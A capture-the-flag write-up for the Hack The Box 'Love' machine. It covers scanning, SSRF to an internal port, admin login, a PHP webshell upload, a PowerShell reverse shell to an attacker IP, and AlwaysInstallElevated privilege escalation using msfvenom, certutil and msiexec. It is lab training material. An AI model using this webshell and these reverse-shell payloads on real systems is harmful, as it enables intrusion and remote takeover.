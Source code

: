 ## Love

Difficulty: Easy

### User Flag

```
rustscan -a love.htb --ulimit 5000 -- -A -sV -sC
```

![rustscan](https://github.com/b1d0ws/OSCP/assets/58514930/9a31e1d8-6ac5-4e79-84c6-226e4241af8a)

<br>

A lot of ports are open, the most intersting ones are: 80, 443 and 5000.  

The nmap result of port 443, return us a subdomain called: stating.love.htb.  

The website on port 80 has a login form that we can SQL Inject, but nothing interesting will come up.

![nmapSubdomain](https://github.com/b1d0ws/OSCP/assets/58514930/dd2c9f3c-1dd8-47a8-8dcf-9cfc6bb9efea)

![website](https://github.com/b1d0ws/OSCP/assets/58514930/71fddd0c-da92-4a5d-88c0-e7a3e129defe)

<br>

If we try to access port 5000, we got a forbidden response.

![forbidden](https://github.com/b1d0ws/OSCP/assets/58514930/d96f15ee-8641-43e0-8432-3d3f842d3d63)

<br>

On subdomain, there is a functionality that scan file that we can insert URLs.  

We can abuse this to trigger SSRF to access port 5000 with 127.0.0.1:5000.  

![subdomainSSRF](https://github.com/b1d0ws/OSCP/assets/58514930/2f2d842d-a122-4cb5-8dfa-b40b1e25d7ff)

<br>

We find this credentials, but on the website the login form requests a Voter ID.  

Enumerating the website with GoBuster, we find /admin directory and there we can use this credentials.

![goBuster](https://github.com/b1d0ws/OSCP/assets/58514930/102945f5-54b5-4c91-8d12-11062eefaa8d)

![websiteAdmin](https://github.com/b1d0ws/OSCP/assets/58514930/d31dedce-941d-4484-be43-1296e07730d0)

<br>

Logged in, we can upload a webshell on "Voters" on Photo and use it to get a reverse shell with powershell.

```
webshell.php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>

reverse payload
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.21',3333);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

![uploadingWebshell](https://github.com/b1d0ws/OSCP/assets/58514930/d8f620dd-8907-41ba-bf33-18d12d286447)

![webshell](https://github.com/b1d0ws/OSCP/assets/58514930/d7615fbc-bd2a-49be-abd7-e12b71ae22fc)

<br>

### Root Flag

Running winPeas, we find AlwaysInstallElevated privileges. 

![winPeas](https://github.com/b1d0ws/OSCP/assets/58514930/44254c7f-7f34-4371-8407-7aacb4c42ef7)

<br>

[This article](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#alwaysinstallelevated) teaches how to explore this to escalate privileges.

```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.21 LPORT=1337 -f msi > shell.msi

certutil -urlcache -f http://10.10.14.21/shell.msi shell.msi

msiexec /quiet /qn /i file.msi
```

![privEsc](https://github.com/b1d0ws/OSCP/assets/58514930/fa8730f0-86ec-4d58-91cf-f7c665eb86ee)
